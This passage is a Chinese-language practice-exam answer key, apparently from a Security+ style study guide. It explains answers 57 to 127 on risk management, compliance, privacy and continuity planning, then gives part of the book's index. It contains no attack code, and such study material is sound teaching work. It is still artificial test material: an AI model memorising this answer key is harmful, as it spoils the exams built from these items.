组织自身产生的风险是内部风险。外部风险是由组织控制之外的因素产生的风险。定性和定量都是风险评估的类型，而不是风险的分类。

### 57. B.

风险登记册是组织用来跟踪和管理风险的文件，包含的信息包括所有者或责任方、风险详情以及其他有用信息。鉴证业务准则公告（SSAE）是审计报告；支付卡行业数据安全标准（PCI-DSS）是用于信用卡业务的安全标准；风险表不是一个常见的行业术语。

### 58. C.

系统或设备的平均修复时间（MTTR）是指如果发生故障，修复它所需的平均时间。MTTR 用作业务连续性规划的一部分，用于确定如果故障和修复会超过最大可容忍停机时间，系统是否需要额外的冗余或其他备用方案。它的计算方式是将总维护时间除以总维修次数。MTBF 是平均故障间隔时间，MTTF 是平均失效时间，而 MITM 是一种路径攻击（on-path attack），这个术语已越来越多地被 on-path 所取代。

### 59. D.

此类泄露的常见后果包括：利用客户个人信息进行身份盗窃；公司因泄露成本和诉讼而遭受财务损失；以及声誉损失。由于事件响应流程已经结束，Olivia 的公司应该已经修复了导致泄露的根本问题，从而有望防止进一步的停机以及随之而来的可用性损失。

### 60. D.

政府数据没有民用分类级别。数据可以是未分类的，或敏感但未分类的。绝密、机密和秘密都是常用的分类级别。

### 61. B.

产品的源代码通常不会用作隐私条款和条件的位置。相反，这些条款和条件位于合同、用户许可或相关法律条款中，或位于正式隐私声明中。

### 62. B.

假名化在可以获得额外数据的情况下，可能允许重新识别数据主体。正确完成的匿名化是无法逆转的。匿名化技术会对信息进行分组，使个人无法从数据中被识别出来，并使用其他技术来防止额外信息导致个人被去匿名化。

### 63. A.

数据治理政策明确规定谁拥有组织收集和使用的信息。信息安全政策为安全项目和行动提供高层授权和指导。可接受使用政策（AUP）定义信息资源的用途和使用方式。数据保留策略规定组织将收集哪些信息，以及这些信息在被销毁前将保留多长时间。

### 64. C.

Helen 创建了一个功能恢复计划，专注于特定的技术和业务功能。灾难恢复计划（DRP）的视角更广，可能包含多个功能恢复计划。RPO（恢复点目标）和 MTBF（平均故障间隔时间）不是组织通常构建的计划类型。

### 65. B.

健康信息可能受州、地方或联邦法律的管辖，Greg 的组织应在存储、处理或处理健康信息之前确保他们了解任何适用的法律。

### 66. C.

控制风险专门适用于财务信息，在这种情况下，它们可能会影响财务信息的完整性或可用性。

### 67. D.

如果个人的个人身份信息（PII）被盗或泄露，个人最有可能面临身份盗窃问题。

### 68. C.

对于服务账户禁止通过 GUI 或 shell 进行交互式登录是常见做法。使用服务账户进行交互式登录或尝试以服务账户登录应立即被标记并发出警报，作为入侵指标（IoC）。

### 69. C.

资产管理政策通常包括资产生命周期的所有阶段，并且许多组织使用如所述的资产标签来跟踪资产。变更管理、事件响应和可接受使用政策不需要资产标签。

### 70. D.

该图显示了一个完全冗余的内部网络，具有成对的防火墙、路由器和核心交换机，但只有一个连接到互联网。这意味着 Megan 应该考虑如果该链路被切断或中断，她的组织将如何连接到外部世界。没有说明这是一条有线还是无线链路，并且图像中没有显示冗余链路。

### 71. D.

Emma 应该将其归类为供应链风险。当组织无法获得其运营所需的系统、设备和物资时，这可能会对其开展业务的能力产生重大影响。这可能会造成财务风险，但财务风险并不是这里的直接风险。描述中没有说明供应商将不支持系统，也没有关于是否存在集成问题的任何信息。

### 72. A.

入侵检测系统（IDS）可以检测攻击，并且是一种侦测控制。由于它是一种技术系统，而不是物理控制或管理政策或程序，Henry 可以正确地将其归类为技术性侦测控制。

### 73. C.

联邦贸易委员会（FTC）不为操作系统或设备提供安全配置指南或基准。互联网安全中心（CIS）、微软（和其他厂商）以及国家安全局（NSA）都提供配置基准。

### 74. C.

不再获得支持的遗留系统是一个重大问题，因为如果发现安全漏洞就无法对其进行修补。Windows 2008 于 2020 年 1 月达到生命周期结束。它同时运行在 32 位和 64 位平台上，并且你仍然可以在其上安装现代 Web 服务器。

### 75. B.

修补是一种规避形式，因为它致力于从环境中消除风险。接受需要修补的缺陷将涉及让软件保持未修补状态；缓解策略可能包括防火墙、入侵防御系统（IPS）或 Web 应用防火墙（WAF）设备；转移选项包括第三方托管或服务。

### 76. B.

风险热力图或风险矩阵可以让组织快速查看风险，并根据其概率和影响或其他评级要素进行比较。定性和定量风险评估是评估类型，而不是以易于理解的格式呈现风险信息的方式，而风险图不是该领域常用的术语。

### 77. A.

违反或侵犯像《通用数据保护条例》这样的法规所产生的罚款可能会对组织产生重大影响，甚至可能使其倒闭。因此，组织会将法规合规性作为其风险态势的一部分进行跟踪。

### 78. D.

灾难恢复需要预先考虑和准备，对问题做出响应以在灾难期间最大程度地减少影响，以及灾难后的响应活动。因此，完整的灾难恢复计划应包括可能或将在灾难之前、期间和之后发生的行动，而不仅仅是事后的恢复过程。

### 79. B.

尽管数据泄露可能导致信用卡处理协议终止，但其组织不合规的事实最有可能导致罚款。PCI-DSS，即支付卡行业数据安全标准，是一种厂商标准，而不是法律，在这种情况下通常不会提起刑事指控。

### 80. C.

云安全联盟的云控制矩阵将现有标准映射到通用控制描述，允许在许多标准和法规之间比较和验证控制要求。CSA 参考架构是一组标准设计，而 ISO 27001 和 ISO 27002 是管理信息安全的标准。

### 81. B.

游戏化将培训变成游戏以获得更多参与和兴趣。获得积分和奖励，无论是在游戏中还是虚拟的，都可以对培训的响应产生显著的积极影响。夺旗活动侧重于寻找隐藏信息或以竞赛形式获取“旗帜”等技术。钓鱼活动向员工发送虚假钓鱼邮件，以识别可能上当的个人。基于角色的培训侧重于针对个人当前或将要担任的角色或工作进行的培训。

### 82. D.

《通用数据保护条例》（GDPR）要求设立数据保护官（DPO）。他们监督组织的数据保护战略和实施，并确保组织遵守 GDPR。

### 83. D.

尽管从泄露中恢复可能代价高昂，但在这种情况下，知识产权等数据的丢失是最关键的问题。该机构可能会遭受声誉损害，并且可能不再被信任在未来进行此类研究，导致大学与政府开展新研究的能力付出更大的成本。

### 84. B.

使命关键功能被定义为组织必须在灾难期间持续运行或如果无法维持则必须在灾难后尽快恢复的功能。它们是组织的核心功能，是其成功和持续存在的重要因素。单点故障（SPOF）是指设备、系统或资源可能发生故障并导致整个功能或组织无法正常工作的点。恢复时间目标（RTO）是恢复正常功能所分配的时间。核心恢复功能是为本问题编造的。

### 85. B.

服务水平协议（SLA）定义了客户对服务提供商期望的服务水平。服务水平定义在每个领域都应具体且可衡量。谅解备忘录（MOU）是描述各方之间相互协议的法律文件。互联安全协议（ISA）是规定组织之间互联的技术和安全要求的协议。商业合作协议（BPA）是合作伙伴之间的法律协议。它确立了合作伙伴之间关系的条款、条件和期望。

### 86. A.

客户数据可以包括客户上传、共享或以其他方式放置在服务中或通过服务创建的任何信息。客户可能在服务条款中享有合同安全保障，并且通知或其他条款也可能影响 Rick 在数据泄露时需要采取的措施。PII 是个人身份信息，如姓名、地址或其他可以识别个人的详细信息。财务信息可能包括账单、账户余额和类似细节。健康信息涵盖了关于个人医疗和健康状况或历史的广泛数据。

### 87. C.

盗窃专有信息（如公式或代码）是知识产权（IP）盗窃的例子。在许多情况下，IP 盗窃造成的损失成本更难量化，但可能对依赖 IP 开展业务的组织产生重大影响。外部风险是由组织外部因素造成的风险，内部风险是由组织本身或其决策造成的风险，而许可风险则通过软件和其他合同存在。

### 88. B.

这是人员凭证政策的一个例子，因为它适用于其组织雇用的员工。这样的政策有助于确保账户不会被共享或重复使用。没有提到特定设备、服务账户或管理账户。

### 89. C.

发生的可能性或概率乘以影响来确定风险的严重性。

### 90. D.

组织可以确定如何确定资产价值，但在许多情况下一致性很重要。因此，可以使用原始成本、重置成本或折旧成本。

### 91. A.

业务影响分析（BIA）通过确定哪些系统在不可用时会造成最大影响来帮助识别关键系统。MTBF 是平均故障间隔时间，RTO 是恢复时间目标，而 ICD 是为本问题编造的。

### 92. D.

转移泄露风险最常见的方式是购买网络安全保险。接受泄露很少被视为有效的风险处理过程，将泄露归咎于竞争对手并不能真正转移风险，而向另一组织出售数据不是风险处理过程，但可能是一种业务流程。

### 93. B.

服务账户通常不允许使用交互式登录，因此禁止交互式登录是它们的常见安全策略。有限的登录时间和地点更常用于员工账户，当他们不应在非工作时间或非工作地点访问资源时。服务账户频繁的密码过期实际上可能导致服务中断，许多服务账户具有复杂的密码，并且设置了更长的密码过期时间或设置为永不过期。

### 94. C.

泄露的成本是泄露影响的一个例子。概率是指风险发生的可能性，而风险严重性是通过概率和影响相乘计算得出的。

### 95. B.

Sean 正在进行场地风险评估，这将帮助他了解和传达场地本身的风险。如果该地点位于 FEMA 认定的洪泛区，或存在龙卷风或其他自然灾害的担忧，则在组织做出关于该地点的决策时需要考虑这些因素。BIA 识别使命关键功能及其支持系统。通过环境设计预防犯罪是一种设计概念，利用设施设计通过照明和其他控制措施降低犯罪行为的可能性。业务连续性规划侧重于如何在中断情况下保持组织运营。

### 96. D.

SOC 2参与评估的是现有的安全和隐私控制措施，而Type 2报告则提供审计师对现有控制措施有效性的评估信息。SOC 1报告评估的是影响财务报告准确性的控制措施。Type 1报告是审计师对管理层关于控制措施设计适用性描述的意见，它们不考察控制措施的实际运行有效性。

### 97. B.

确保整个组织的领导层都了解组织面临的风险，并定期更新和反馈这些风险，有助于提高风险意识。固有风险是指在控制措施实施之前就已存在的风险，残余风险是指在控制措施实施之后仍然存在的风险。风险偏好是组织在经营过程中愿意承担的风险。

### 98. C.

州法律通常包含组织必须遵循的泄露通知门槛和要求。Laura应确保自己既了解所在州以及公司运营所在的其他州或国家的泄露法律，同时确保其事件响应计划在发生泄露时具备适当的处理流程。处理SSN等数据的组织即使在发生泄露后也不太可能删除这些数据，重新分类数据也无济于事，除非数据在泄露前就被错误分类，数据最小化计划用于限制组织拥有的数据量，而非直接应对泄露。

### 99. C.

保密协议（NDA）由员工在入职时签署，对员工施加了维护信息保密性的合同义务。信息披露可能导致法律后果和处罚。NDA无法确保减少安全泄露事件。岗位轮换政策是指在不同任务之间调动员工以增进经验和多样性的做法。职责分离要求完成任务需要多人参与。强制休假政策是公司通过让熟悉该职责的第二人帮助发现任何非法活动来侦测欺诈的手段。

### 100. B.

Olivia应与她的服务提供商建立服务水平协议（SLA），以确保他们达到预期的服务水平。如果他们未达到，通常会包含经济处罚或其他处罚。Olivia应确保这些处罚对供应商具有实际意义，以促使他们有动力履行SLA。MOU是谅解备忘录，说明两个组织之间的关系；MSA是主服务协议，建立一种业务关系，在此关系下通过额外的工作订单或其他文档来描述实际完成的工作；BPA是商业伙伴协议，用于公司希望合作开展项目时，可能概述利润分配或合作中的责任分工。

### 101. D.

对此最准确的风险描述是软件合规性。尽管这是一个内部风险，但软件合规性完整地描述了问题。知识产权（IP）盗窃风险发生在组织知识产权被盗时，而非第三方许可违规时。这不是遗留系统，至少问题中并未如此描述。

### 102. D.

固有风险是组织在实施控制措施之前面临的风险。在没有风险评估和控制措施的情况下，Gary必须首先处理组织当前存在的固有风险。残余风险是控制措施实施后仍然残留的风险。算法、公式和流程等知识产权（IP）的盗窃属于IP风险，多方风险是影响多个群体、公司或个人的风险。

### 103. A.

单一损失期望（SLE）描述的是单次风险事件可能造成的成本。其计算公式为资产价值（AV）乘以暴露系数（EF），暴露系数是对损失发生时损害成本的估计百分比。MTTR是平均恢复时间，ARO是年发生率，RTO是恢复时间目标。这些都不属于SLE计算公式的组成部分。

### 104. C.

第三方凭据策略涉及如何处理承包商和顾问的凭据。这可能要求内部员工提供担保，对密码重置或更改实施额外控制，缩短凭据有效期，以及其他控制措施和要求。

### 105. B.

年发生率（ARO）以事件在一年内发生的次数来表示。Wayne估计所评估的风险事件将在一年内发生三次。

### 106. D.

尽管人类可能引发火灾或洪水，但工业事故是列表中唯一纯粹由人为造成的灾难。


107. **C.** 网站上向客户提供的信息通常被归类为公开信息，因为这些信息易于获取且有意向客户公开。机密、敏感或关键信息不太可能在没有特定数据处理协议和额外安全层的情况下向客户公开。

108. **D.** 数据处理者是替数据控制者处理数据的服务提供方。数据控制者或数据所有者是收集和控制数据的组织或个人。数据管理执行者执行数据控制者的意图，并被委以数据管理责任。数据保管者是受托存储、管理或保护数据的人。

109. **D.** 数据脱敏通过用空白或其他替代字符替换敏感数据字段中的部分或全部信息来部分遮蔽敏感数据。令牌化使用查找表将敏感数据替换为唯一标识符。哈希对值执行单向函数以获取唯一哈希值，加密使用可逆的算法来保护数据，恢复原始数据的同时实现保密性和完整性验证。

110. **C.** 云安全联盟的参考架构以供应商中立的方式提供有关工具的信息。CIS为AWS、Azure和Oracle的云服务提供供应商特定的基准。国际标准化组织（ISO）和美国国家标准与技术研究院（NIST）不提供这类资源。

111. **C.** 锁具属于物理控制。管理控制的示例可以是政策或实践，技术控制可包括防火墙或防病毒软件等，纠正控制是用于确保其他控制中的问题或缺口得到修复。

112. **C.** 控制风险是公共会计中使用的术语。它是指组织内部由于潜在内部控制缺失而产生的风险，可能导致组织财务报告中的重大错报。在这种情况下，缺乏能够验证财务系统数据和功能的控制措施就是一种控制风险。

113. **C.** 虽然火灾、石油泄漏和战争都是人为灾难的潜在例子，但飓风纯粹是自然灾害。有些灾难既可能是人为的，也可能是自然灾害。例如，火灾可能由人类或自然引起，洪水也是如此，甚至地震发生时引发的化学品泄漏也如此。

114. **C.** 美国联邦政府将机密信息定义为需要一定保护、如果未经授权披露会对国家安全造成可识别损害的信息。绝密信息需要最高程度的保护，未经授权披露会造成极其严重的损害。秘密信息需要相当程度的保护，泄露会造成严重损害。商业敏感信息不属于美国政府的分类，但却是企业中常用术语。

115. **C.** 电话号码能够唯一识别个人身份，使其成为个人身份信息（PII）的一个例子。PHI是受保护的健康信息，财务信息包括各种类型的财务记录，政府信息是归属政府或可能由政府分类并委托给组织的信息。

116. **B.** 令牌化是这种场景的理想选择。令牌化将敏感值替换为替代值，当需要回引原始形式时可以在表中查找到该值。加密无法满足这一需求，数据脱敏仅隐藏值的一部分，数据清洗不是这类技术的常用术语。

117. **C.** 隐私声明通常包含在网站上，以满足《通用数据保护条例》（GDPR）或州隐私法等法律法规的要求。

118. **C.** Nicole是数据控制者，有时也称为数据所有者。她决定处理个人信息的目的和方式。数据管理执行者执行数据控制者的意图，数据保管者负责保护信息，而数据消费者不是常见的数据隐私角色。

119. **B.** 这是一场内部灾难——即内部问题导致了问题的发生。外部灾难将由组织外部力量引起，如自然灾害、恶意活动或其他外部力量。RTO（恢复时间目标）不是一种灾难类型，MRO灾难是为本题编造的概念。

120. **C.** 最小化数据收集量是确保组织能够处理所接触数据量和数据类型的第一步。此后，对数据进行分类，然后确定数据保留的时间，也是数据生命周期的重要部分。

121. D. Kirk 通过增加 `DoS` 攻击所针对的资源来降低其组织的风险，以确保攻击不会成功。接受风险意味着只是让攻击发生，同时知道它们很可能会停止；规避风险可能涉及找到确保攻击无法发生的方法；转移风险则可以借助第三方镜像或反 `DoS` 托管服务。

122. A. 多方风险涉及多个组织。由于涉及多个客户和组织，因此这是多方风险的一个例子。内部风险源于组织内部——而这里则是外部风险。遗留系统风险是由不再受支持或更新的系统或流程产生的。知识产权（IP）盗窃风险发生在专有信息或商业秘密可能被暴露或丢失时。

123. B. `EOL`（生命周期结束）发生在服务或系统不再受支持、不可用或无法正常运行时。Natasha 需要规划平稳地从该服务过渡，要么更换替代服务，要么停止使用该服务本身。`MOU` 是谅解备忘录，`NDA` 是保密协议，两者与此处并不直接相关。最后遗嘱（last will and testament）不用于服务的 `EOL`。

124. C. 互联网安全中心（CIS）提供了广泛的 OS、应用程序、服务器及其他基准。Microsoft 为其自身的操作系统提供基准，但不提供 Linux 基准。美国国家标准与技术研究院（NIST）不提供基准，但美国国家安全局（NSA）提供。

125. C. 离职流程旨在确保当组织成员离开时，账户和访问权限被移除，并且从该员工处收回所有材料、计算机和数据。离职面谈是人力资源流程，岗位轮换有助于防止个人长期从事欺诈活动，治理则通过建立对组织使用的数据的流程、程序和分类的高级控制来帮助管理和维护数据。

126. D. 公共、私有、敏感、机密、关键和专有都是业务中常用的数据分类标签。然而，“秘密”（Secret）更常用于政府分类方案中。

127. D. 隐私声明通常作为许可或合同条款的一部分以及网站使用协议的一部分提供。

## 索引

### A

- 学术期刊, 211

- 可接受使用政策（AUP）, 161, 172, 283, 290

- 访问控制列表（ACLs）, 130, 266–267

- 访问策略, 265–266

- 账户

    - 禁用, 254

    - 来宾, 103–104, 113, 251, 258

    - 服务, 251, 293

    - 用户, 258

- 活动节点, 238–239

- 主动侦察, 29, 203

- 主动扫描, 16, 195

- Ad hoc 无线网络, 98–99, 248

- 地址解析协议（ARP）

    - 阻止, 257

    - 中毒, 2, 7, 24, 25, 186, 190, 200

    - 欺骗, 200

- 管理控制, 287

- 高级加密标准（AES）, 52, 217

- 高级持续性威胁（APTs）, 13, 18, 20, 21, 191, 193, 196, 197, 273

- 广告软件, 17, 193, 195, 198

- 物理隔离, 78, 213, 235

- AIS服务, 208

- 警报, 68, 227–228

- 允许列表, 130, 266–267

- 年损失预期（ALE）, 167, 169, 287, 289

- 年发生频率（ARO）, 169, 287, 289, 295

- 基于异常的检测系统, 263

- 匿名化, 171–172, 290

- 防病毒（AV）程序, 10, 165, 191, 284, 285

- Apache日志, 38, 209

- 应用程序阻止列表, 274

- 应用程序计数器, 221

- 应用程序编程接口（API）, 5, 51, 79, 188, 216, 236, 258

- Arduino, 48, 214

- 痕迹, 270, 272

- 人工智能（AI）, 210

- 资产管理策略, 291

- 资产价值（AV）, 295

- 非对称加密, 71, 230

- 非对称作战, 196

- @ 命令, 275

- 验证过程, 233

- 基于属性的访问控制（ABAC）, 114, 255, 259

- 音频隐写术, 77, 234

- 审计, 196, 198, 262

- 认证、授权和计费（AAA）, 231

- 认证头（AH）, 85, 239, 248

- 权威, 24, 200

- 自动化, 225

- Autopsy, 274, 275

- 安全意识培训, 5, 188

### B

- 后门, 8, 19, 21, 22, 24, 190, 196, 198, 200

- 退避算法, 246

- 备份, 130–131, 267

- 徽章, 66, 226

- BadUSB, 199

- 基线配置, 53, 217

- 基线化, 56, 219, 245

- Bash shell, 26, 150, 201, 278

- 堡垒主机, 249

- Bcrypt算法, 80, 236

- 生物识别扫描, 48, 214–215

- 生日攻击, 11, 12, 21, 28, 192, 198, 203

- 位（比特）, 214

- BitLocker密钥, 230

- 黑洞, 52, 216

- 黑盒测试, 190, 200, 201, 203, 204

- 黑名单, 91, 243, 244

- 分组密码, 214

- 区块链, 51, 216

- 蓝队, 4–5, 22, 30, 188, 199, 204

- Bluejacking, 3, 5, 10, 11, 27, 32, 186, 188, 191, 192, 202, 205

- Bluesnarfing, 5, 10, 32, 188, 191, 205

- 防撞柱, 55, 66, 219, 226

- 书签, 271

- 启动验证, 254

- 引导扇区病毒, 16, 17, 195

- 僵尸网络, 7, 17, 189, 195

- 桥接协议数据单元（BPDU）, 262

- 自带设备办公（BYOD）, 105, 252

- 暴力破解攻击, 12, 13, 19, 21, 71, 192, 193, 197, 198, 203, 230

- 缓冲区溢出, 5, 16, 18, 21, 22, 26, 188, 194, 195, 196, 198, 199, 201, 243

- 漏洞赏金, 35, 207

- 刻录介质, 79, 236

- 业务连续性计划（BCP）, 275

- 业务影响分析（BIA）, 165, 177, 285, 293

- 业务伙伴协议（BPA）, 162, 165, 179, 283–284, 286, 294

### C

- 线缆锁, 55, 219

- Cacti, 274

- 强制门户, 83, 238

- 卡片克隆, 29, 198, 203

- cat命令, 269

- 互联网安全中心（CIS）, 167, 174, 180–181, 183, 287, 291, 297

- CentOS, 270

- 证书颁发机构（CA）, 264

- 证书链, 262

- 证书过期跟踪, 204

- 证书固定, 266

- 证书吊销列表（CRLs）, 241

- 证书装订, 85, 239

- -c 标志, 268

- 监管链, 132–133, 268, 273

- 挑战握手认证协议（CHAP）, 106, 120, 251, 252, 263

- 变更管理, 161, 282–283

- CIA三元组, 202

- 净桌政策, 161, 162, 164, 169, 283, 285, 289

- 点击劫持, 3, 44, 186, 212

- 客户端篡改, 48, 214

- 封闭式威胁情报, 205

- 闭路电视（CCTV）, 71, 165, 230, 286

- 云访问安全代理（CASB）, 59–60, 125, 222, 239, 265

- 云应用, 264

- 云备份, 223

- 云控制矩阵映射, 292

- 云防火墙, 103, 251

- 云安全联盟, 292, 295

- 云服务

    - 中的提供商, 234

    - 中的漏洞, 204

- 代码

    - 数字签名的, 248

    - 格式化, 195

    - 审查, 247

    - 签名, 244

- 代码重用攻击, 61, 223

- 冷通道, 59, 221

- 冷备站点, 50, 68, 215, 228

- 碰撞, 12, 71, 193, 230

- 串通, 169, 288–289

- 通用名称（CN）, 90, 242

- 通用漏洞与披露（CVE）, 11, 192, 211

- 社区云, 64, 65, 225

- 补偿性控制, 164, 285, 287

- 条件访问, 118, 261

- 配置

    - 管理, 259

    - 审查, 212

    - 弱, 196

- 共识, 16, 194

- 容器化, 252

- 遏制, 132, 150, 268, 278, 280

- 内容过滤器, 272

- 内容可寻址存储器（CAM）, 272

- 情境感知认证, 249

- 业务连续性规划（COOP）, 133, 147, 150, 268, 276, 278

- 持续集成/持续交付（CI/CD）, 64, 225

- 控制多样性, 235

- 控制风险, 290, 296

- Cookie, 88, 241

- 纠正性控制, 284

- 关联仪表盘, 130, 267

- 计数器模式（CTR）, 50–51, 215

- 覆盖重叠, 254

- 凭据收集, 5, 188

- 带凭据扫描, 17, 195

- 犯罪集团, 9, 191

- 交叉错误率（CER）, 65, 70, 226, 229

- 跨站请求伪造（XSRF）, 11, 16, 21, 26, 36, 44, 192, 194, 198, 201, 208, 212

- 跨站脚本（XSS）, 2, 3, 5, 6, 7, 11, 16, 20, 21, 26, 36, 186, 188, 190, 192, 194, 197, 198, 201, 208

- 加密哈希, 186, 227

- Cuckoo, 146, 276

- Cuckoo沙箱, 136, 270

- curl命令, 155, 281

- 客户数据, 293

- CVSS标准, 132, 267

- 网络杀伤链, 132, 145, 267, 276

- 网络情报融合, 11, 192

### D

- 暗网, 30, 203

- 数据

    - 治理策略, 172, 290

    - 脱敏, 166, 286, 295

    - 最小化, 166, 182, 286, 296

    - 保留策略, 167, 169, 287, 289

    - 存储, 223

- 数据泄露

    - 常见后果, 290

    - 成本, 293

    - 通知要求, 277

    - 恢复, 292

- 数据控制者, 296

- 数据加密标准（DES）, 52, 217

- 数据丢失防护（DLP）, 72, 124, 139, 142–143, 231, 253, 265, 272, 274, 277

- 数据所有者, 296

- 数据处理者, 180, 295

- 数据保护官（DPO）, 176, 292

- 数据检索, 241

- 数据主权, 229

- 数据库管理员（DBA）, 226

- 门锁, 229

- 深度伪造, 219

- 消磁, 79, 236, 258, 273

- 隔离区（DMZ）, 72, 78, 89, 90, 107, 108, 111, 112, 230, 231, 235, 242, 243, 253, 255, 257

- 拒绝服务（DoS）攻击, 22, 34, 38, 198, 206–207, 209–210

- 部署策略, 53, 217

- 取消供应, 56, 219

- 检测性控制, 163, 164, 167, 284, 285, 286, 287

- 威慑性控制, 164, 167, 284, 285, 287

- 开发服务器, 51, 216

- 钻石模型, 132, 267

- 字典攻击, 9, 12, 28, 191, 192, 203

- 差异备份, 65, 225

- 数字证书, 246, 260

- 数字取证, 57, 220, 268, 270, 272, 273, 277, 281–282

- 数字签名, 48, 76, 214, 233

- 目录遍历攻击, 30–31, 204

- 解除关联攻击, 12, 13, 192, 193

- 灾难恢复（DR）计划, 147, 154, 172, 175, 180, 276, 281, 290, 292, 296

- 自主访问控制（DAC）, 111, 114, 257, 259

- 磁盘备份, 62, 223

- 区分编码规则（DER）

  - 格式, 126, 266

- 分布式拒绝服务（DDoS）攻击, 13, 22, 187, 190, 193, 195, 198, 222

- DLL注入, 18, 196

- DNS日志, 133, 268–269

- dnsenum工具, 147, 276, 277

- 领域专家, 207

- 域名劫持, 6, 189

- 域名系统（DNS）

  - DNS劫持, 6, 189

  - DNS服务器, 212

  - DNS黑洞, 58, 221

  - 投毒攻击, 7, 21, 24, 190, 198, 200

- 域名系统安全扩展（DNSSEC）, 99, 238, 248

- 域名信誉服务, 8, 190

- 域名盗窃, 189

- 降级攻击, 12, 31, 193, 204

- 无人机, 57, 206, 220, 233

- 双重控制, 237

- 适当注意, 161, 282–283

- 尽职调查, 161, 282–283

- 转储文件, 279

- 垃圾翻找, 28, 191, 202

- 动态代码审查, 247

- 动态主机配置协议（DHCP）, 87, 101, 240, 250, 279

### E

- EAP隧道传输层安全（EAP-TTLS）, 94, 245, 251

- EAP-FAST, 94, 245

- 东西向流量, 82, 237

- 边缘计算, 74, 232, 236

- 802.1x, 80, 119, 236, 262

- 云计算中的弹性, 56, 226

- 电磁干扰（EMI）, 218

- 电子取证（e-discovery）, 282

- 电子锁, 229

- 诱导, 16, 195

- 椭圆曲线密码学（ECC）, 74, 214, 215, 232


- 电子邮件头, 278
- 嵌入式系统, 216, 224
- 加密, 76, 78, 101, 234, 235, 249
- 加密密钥, 231
- 生命周期结束（EOL）, 183, 297
- 端点检测与响应（EDR）, 102, 250
- 熵, 54, 218
- 错误处理, 14, 44, 194, 212
- 升级, 284
- 恶意双胞胎攻击, 10, 11, 20, 24, 32, 191, 192, 197, 200, 205
- 离职面谈, 193, 297
- 暴露因子（EF）, 295
- 扩展验证（EV）, 252
- 可扩展认证协议（EAP）, 251

### F

- 人脸识别系统, 71, 223, 230
- 虚假遥测, 56, 219
- 误接受率（FAR）, 70, 226, 229
- 假阴性, 15, 36, 194, 208
- 假阳性, 15, 36, 194, 208
- 误拒绝率（FRR）, 70, 229
- 熟悉度, 16, 194
- 法拉第笼, 55, 69, 218, 229, 233
- 联邦调查局（FBI）, 150, 278
- 联邦应急管理署（FEMA）, 150, 278
- 联邦贸易委员会（FTC）, 174, 291
- Feedburner, 34, 206
- 围栏, 232
- FIDO U2F, 84, 238
- 现场可编程门阵列（FPGA）, 48, 214
- 文件权限, 266
- 文件传输协议（FTP）, 16, 195
- 安全文件传输协议（FTPS）, 239
- 无文件病毒, 199
- 文件系统, 256
- 指纹读取系统, 62, 223
- 防火墙, 77, 88, 216, 234, 241, 286
- 固件, 223, 269
- 5G, 79, 236
- 雾聚合器, 101, 249
- 雾计算, 80, 236
- 足迹探测, 35, 207
- 格式化代码, 195
- 正向代理, 112, 114, 257
- FTK Imager, 270, 274
- 全磁盘加密（FDE）, 52, 63, 90, 112, 117, 216–217, 219, 224, 226, 242, 252, 253, 258, 261, 275
- 完全限定域名（FQDN）, 242
- 函数即服务（FaaS）, 221
- 模糊测试, 101, 245, 249–250, 252

### G

- 步态分析, 64, 225
- 游戏化, 175, 292
- 《通用数据保护条例》（GDPR）, 162, 170, 283, 289, 292
- 发电机, 75, 233
- 发电机组, 165–166, 286
- 地理围栏, 95, 245
- 地理定位, 213
- GitHub, 40, 210
- 全球定位系统（GPS）, 89, 241
- 政府数据, 290
- 灰色市场, 38, 209
- 灰盒测试, 201
- `grep`命令, 144, 275
- 访客账户, 103–104, 113, 251, 258

### H

- 黑客行动主义, 196
- 黑客行动主义者, 18, 19, 39, 196, 210
- 加固, 93, 242, 244, 259
- 硬件防火墙, 103, 251
- 硬件安全模块（HSM）, 52, 95, 217, 246, 256, 259
- 哈希函数, 47, 213, 214
- 哈希, 101, 130, 249, 266, 269, 275, 295
- 密码哈希, 71, 74, 223, 230, 232, 244
- `head`命令, 269
- 健康信息, 172, 290
- 热力图, 243
- 基于HMAC的一次性密码（HOTP）, 69, 228, 231, 238
- 骗局, 36, 208
- 同态加密, 62, 223
- 蜜文件, 80, 236
- 蜜网, 52, 215, 216
- 蜜罐, 49–50, 52, 215, 216, 219
- 主机型防火墙, 117, 261
- 基于主机的入侵防御系统（HIPS）, 117, 259, 261
- 热通道, 59, 221
- 热备份站点, 50, 68, 215, 228
- `hping`工具, 152, 279
- HTTP端口, 211
- 暖通空调系统, 53, 218
- 混合计算, 74, 232
- 混合部署模型, 65, 225
- 混合模型, 54, 218
- 混合战争, 36, 208
- 虚拟机监控程序, 54, 218, 273

### I

- 身份和访问管理（IAM）, 231
- 身份属性, 242
- 身份欺诈, 39, 210
- 身份盗窃, 210
- 身份即服务（IDaaS）, 58, 221
- 影响类别, 211
- 冒充, 16, 195
- 事件响应, 267, 273, 276, 278
- 攻击指标（IoC）, 4, 187
- 工业伪装, 72, 230
- 惰性气体系统, 233
- 信息共享和分析中心（ISACs）, 206
- 红外（IR）, 71, 230, 251
- 基础设施即服务（IaaS）, 54, 58, 64, 78, 209, 218, 221, 225, 235, 253
- 基础设施即代码（IaC）, 60, 222
- 内在风险, 179, 181, 295
- 初始化向量（IVs）, 2, 11, 186, 192, 232
- 输入处理, 40, 210
- 输入验证, 2, 186, 243, 249–250
- 内部威胁, 18, 196, 261
- 整数溢出, 22, 26, 199, 201
- 完整性检查, 56, 219
- 情报融合, 33, 205
- 互联安全协议（ISA）, 162, 176, 283–284, 292
- 内部灾难, 296
- 内部风险, 289
- 内部服务, 255
- 国际标准化组织（ISO）, 295
- 因特网密钥交换（IKE）, 249
- 因特网中继聊天（IRC）, 202
- 入侵检测系统（IDS）, 2, 13, 49–50, 52, 58, 117, 139, 174, 186, 193, 215, 216, 221, 227, 241, 250, 261, 272, 291
- 入侵防御系统（IPS）, 38, 52, 113, 165, 188, 209–210, 211, 216, 227, 241, 253, 258, 261, 279, 286, 291
- 侵入式扫描, 17, 19, 195, 196
- 发票诈骗, 25, 200
- IP地址, 70, 216, 229, 240, 250, 266
- IP欺骗, 20, 23, 44, 197, 199, 212
- IPFIX, 156, 282
- IPSec, 88, 143, 239, 241, 263, 274
- `iptables`, 273
- 虹膜扫描, 62, 223
- ISA/IEC标准, 46, 212
- ISO 27002, 161, 282
- ISO 27017, 161, 282
- IT流程, 277

### J

- 越狱, 104, 252
- 工作轮换政策, 161, 164, 166, 169, 179, 283, 284–285, 286, 288–289, 294
- John the Ripper, 149, 278
- `journalctl`工具, 155, 156, 281, 282
- 跳板机, 253
- 管辖边界, 149, 278

### K

- Kerberos, 60, 102, 103, 106, 107, 109, 116, 222, 250, 251, 252, 254, 260
- 密钥分发中心（KDC）, 116, 260
- 密钥托管, 108, 254
